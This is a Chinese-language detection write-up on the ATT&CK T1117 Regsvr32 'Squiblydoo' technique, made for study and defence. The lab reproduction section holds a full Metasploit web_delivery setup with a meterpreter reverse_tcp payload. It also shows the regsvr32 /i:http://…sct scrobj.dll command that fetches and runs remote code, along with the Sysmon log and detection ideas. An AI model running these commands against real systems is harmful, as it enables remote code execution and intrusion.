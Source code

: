 # T1117-win-基于白名单Regsvr32执行payload

## 来自ATT&CK的描述

命令行程序Regsvr32.exe用于在Windows系统上注册和注销对象链接及嵌入控件，包括动态链接库（DLL）。Regsvr32.exe可用于执行任意二进制文件。

攻击者可能会利用此功能代理执行代码，从而避免触发那些可能不会监控regsvr32.exe进程执行及其加载模块的安全工具，因为正常操作中使用regsvr32.exe的Windows会有白名单或误报。Regsvr32.exe也是微软签名的二进制文件。

Regsvr32.exe还可用于专门绕过进程白名单，方法是加载COM脚本小程序在用户权限下执行动态链接库。由于regsvr32.exe具有网络和代理感知功能，可以在调用期间将URL作为参数传递到外部web服务器上的文件来加载脚本。此方法不对注册表进行任何更改，因为COM对象实际上未注册，仅执行。这个技术变种通常称为“Squiblydoo”攻击，已被攻击者用于针对政府的活动中。

攻击者还可能会利用Regsvr32.exe来注册COM对象以便通过COM劫持建立持久性。

## 测试案例

Regsvr32命令用于注册COM组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。WinXP及以上系统的regsvr32.exe在windows\system32文件夹下；2000系统的regsvr32.exe在winnt\system32文件夹下。但搭配regsvr32.exe使用的 DLL，需要提供 DllRegisterServer 和 DllUnregisterServer两个输出函式，或者提供DllInstall输出函数。

说明：Regsvr32.exe所在路径已被系统添加PATH环境变量中，因此，Regsvr32命令可识别。

默认位置：

```bash
C:\WINDOWS\SysWOW64\regsvr32.exe
C:\WINDOWS\system32\regsvr32.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon日志）

### 攻击分析

#### 配置MSF

```bash
msf5 > use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 3
target => 3
msf5 exploit(multi/script/web_delivery) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Using URL: http://0.0.0.0:8080/06Yud7aXXqYqT
[*] Local IP: http://192.168.126.146:8080/06Yud7aXXqYqT
[*] Server started.
[*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://192.168.126.146:8080/06Yud7aXXqYqT.sct scrobj.dll
```

#### 靶机执行payload

```cmd
regsvr32 /s /n /u /i:http://192.168.126.146:8080/jnOUcgr0b0 scrobj.dll
```

#### 反弹shell

```bash
msf5 exploit(multi/script/web_delivery) > [*] 192.168.126.149  web_delivery - Handling .sct Request
[*] 192.168.126.149  web_delivery - Delivering Payload (1900 bytes)
[*] 192.168.126.149  web_delivery - Handling .sct Request
```

以失败告终，windows powershell已停止工作

## 测试留痕

```log
EventID：1
Image: C:\Windows\System32\regsvr32.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Microsoft(C) Register Server
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: REGSVR32.EXE
CommandLine: regsvr32  /s /n /u /i:http://192.168.126.146:8080/06Yud7aXXqYqT.sct scrobj.dll
# sysmon日志
```

## 检测规则/思路

无具体检测规则。

通过进程监控来检测和分析regsvr32.exe的执行和参数。比较regsvr32.exe的近期调用与历史已知合法参数及已加载文件来确定是否有异常和潜在的攻击活动。在regsvr32.exe调用之前和之后使用的命令参数也可用于确定正在加载的脚本或者动态链接库的来源和目的。

## 参考推荐

MITRE-ATT&CK-T1117

<https://attack.mitre.org/techniques/T1117/>
